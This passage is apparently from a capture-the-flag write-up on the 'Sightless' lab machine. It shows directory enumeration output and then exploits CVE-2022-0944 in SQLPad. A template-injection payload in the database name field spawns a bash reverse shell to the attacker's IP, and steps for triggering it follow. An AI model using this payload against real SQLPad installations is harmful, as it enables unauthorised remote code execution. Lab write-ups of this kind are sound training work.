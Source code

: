   ```bash
[09:16:11] 301 -  178B  - /images  ->  http://sightless.htb/images/         
                                                                             
Task Completed  
```

The /images directory returned a "403 Forbidden" response.

## SQLPad Exploitation

On the `sqlpad.sightless.htb` page, I encountered a web application called SQLPad. According to the documentation, SQLPad is a web app for writing and running SQL queries and visualizing the results. It supports various drivers such as Postgres, MySQL, SQL Server, and many others via ODBC. You can refer to the documentation [here](https://getsqlpad.com/en/connections/).

I looked up known vulnerabilities and found CVE-2022-0944, which describes a critical vulnerability in SQLPad versions up to 6.10.0. This vulnerability is due to an injection flaw classified as CWE-74 (Improper Neutralization of Special Elements used in a Command). The issue arises from SQLPad’s failure to properly neutralize special characters in input that influences command construction, potentially leading to unintended command execution or data manipulation. More details can be found [here](https://vuldb.com/?id.194925).

### Exploitation

I spent some time trying to understand and exploit this vulnerability. After some trial and error with various payloads, several internal server error 500, i finally got one that worked

![2024-09-08_11-33](https://github.com/user-attachments/assets/73590400-7a76-45f5-8d1e-68f13a7faec2)

1. **Create a New Connection:**
   - **Name:** `test`
   - **Driver:** `mysql`
   - **Database Name Field:** This is the field where we need to inject the payload.

2. **Payload:**
   - Use the following payload in the database name field:

     ```plaintext
     {{ process.mainModule.require('child_process').exec('/bin/bash -c "bash -i >& /dev/tcp/10.10.14.19/4444 0>&1"') }}
     ```

   - Replace `10.10.14.19` with your own IP address.

3. **Setup Listener:**
   - Set up a listener on your machine to catch the reverse shell.

4. **Test the Connection:**
   - Click on the "Test" button to trigger the payload.

After setting up the listener and testing the connection, I received a reverse shell on my listener.

## Initial Discovery
